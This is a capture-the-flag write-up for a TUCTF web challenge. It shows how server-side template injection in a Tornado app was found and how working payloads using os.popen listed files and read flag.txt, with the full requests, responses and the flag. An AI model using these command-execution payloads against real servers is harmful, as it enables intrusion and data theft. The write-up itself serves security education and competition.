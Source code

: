 # And Now, For Something Completely Different(Web) - Writeup

### Question

````
We all know Black Friday is the time for shopping. Can you find us a flag on this online store?

http://chal.tuctf.com:30007/
````

### Answer
Check the source file and you will see the following.

````
<!-- TODO: add /welcome/test -->
````

Access again with the curl command.

````
curl http://chal.tuctf.com:30007/welcome/test

<html>
    <head>
        <title>Welcome test</title>
    </head>
    <body>
        Welcome test
    </body>
</html>
````

Access to the upper directory results in an error.

````
curl http://chal.tuctf.com:30007/welcome/
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 1488, in _execute
    result = self.prepare()
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 2223, in prepare
    raise HTTPError(self._status_code)
HTTPError: HTTP 404: Not Found
````


I guess that I use tornado from the error code.
Confirming SSTI vulnerabilities reveals vulnerabilities.

````
http://chal.tuctf.com:30007/welcome/{{2*2}}
Welcome 4
````


If you check with the os command, you can see that flag.txt is located directly under class_website.py.

````
http://chal.tuctf.com:30007/welcome/{%import os%}{{os.popen("ls -al").read()}}

<html>
    <head>
        <title>Welcome {%import os%}{{os.popen(&quot;ls -al&quot;).read()}}</title>
    </head>
    <body>
        Welcome total 40
dr-xr-x--- 1 class class  4096 Nov 28 06:10 .
drwxr-xr-x 1 root  root   4096 Nov 21 23:14 ..
-r-xr-x--- 1 class class 12934 Nov 28 06:10 class_website.py
-r-xr-x--- 1 class class    36 Nov 28 04:23 flag.txt
-r-xr-x--- 1 class class   173 Nov 28 05:29 requirements.txt
dr-xr-x--- 1 class class  4096 Nov 28 04:23 static
dr-xr-x--- 1 class class  4096 Nov 28 04:23 templates

    </body>
</html>
````

Check the contents of flag.txt.

````
http://chal.tuctf.com:30007/welcome/{%import os%}{{os.popen("cat flag.txt").read()}}

<html>
    <head>
        <title>Welcome {%import os%}{{os.popen(&quot;cat flag.txt&quot;).read()}}</title>
    </head>
    <body>
        Welcome TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

    </body>
</html>
````

###### TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}
